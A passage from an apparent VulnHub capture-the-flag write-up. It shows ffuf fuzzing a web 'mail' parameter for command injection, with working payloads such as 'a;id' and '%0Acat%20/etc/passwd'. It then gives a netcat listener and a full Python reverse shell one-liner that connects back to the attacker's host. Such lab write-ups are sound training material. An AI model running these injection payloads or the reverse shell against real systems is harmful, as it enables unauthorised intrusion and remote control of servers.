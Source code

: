 		- There is a second URL parameter `mail`

## TCP/60080 (HTTP) - Enumerate 2nd URL Parameter + RCE
1. FUZZ `mail` parameter against command injection wordlist
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# ffuf -u "http://192.168.110.39:60080/?page=mailer&mail=FUZZ" -w /usr/share/wordlists/command_injection/commandInjectionLinux.txt  -fw 204

			/'___\  /'___\           /'___\       
		   /\ \__/ /\ \__/  __  __  /\ \__/       
		   \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
			\ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
			 \ \_\   \ \_\  \ \____/  \ \_\       
			  \/_/    \/_/   \/___/    \/_/       

		   v1.3.1 Kali Exclusive <3
	________________________________________________

	 :: Method           : GET
	 :: URL              : http://192.168.110.39:60080/?page=mailer&mail=FUZZ
	 :: Wordlist         : FUZZ: /usr/share/wordlists/command_injection/commandInjectionLinux.txt
	 :: Follow redirects : false
	 :: Calibration      : false
	 :: Timeout          : 10
	 :: Threads          : 40
	 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
	 :: Filter           : Response words: 204
	________________________________________________

	a|id                    [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a|id                    [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a;/usr/bin/id           [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a;/usr/bin/id;          [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a|/usr/bin/id           [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0Acat%20/etc/passwd    [Status: 200, Size: 2748, Words: 219, Lines: 62]
	a|/usr/bin/id           [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0Aid                   [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0Aid%0A                [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0A/usr/bin/id%0A       [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0A/usr/bin/id          [Status: 200, Size: 1134, Words: 206, Lines: 31]
	$;/usr/bin/id           [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a;id                    [Status: 200, Size: 1134, Words: 206, Lines: 31]
	a;id;                   [Status: 200, Size: 1134, Words: 206, Lines: 31]
	%0Acat%20/etc/passwd    [Status: 200, Size: 2748, Words: 219, Lines: 62]
	:: Progress: [102/102] :: Job [1/1] :: 16 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
	```
	![](Pasted%20image%2020220312175826.png)
	- RCE achieved!
2. Start listener on kali
	``` 
	┌──(root💀kali)-[~/vulnHub/Wallaby_Nightmare]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	```
3. Execute python reverse shell payload
	``` 
	python -c 'a=__import__;s=a("socket").socket;o=a("os").dup2;p=a("pty").spawn;c=s();c.connect(("192.168.110.4",4444));f=c.fileno;o(f(),0);o(f(),1);o(f(),2);p("/bin/sh")'
	```
	![](Pasted%20image%2020220312180243.png)
4. www-data shell obtained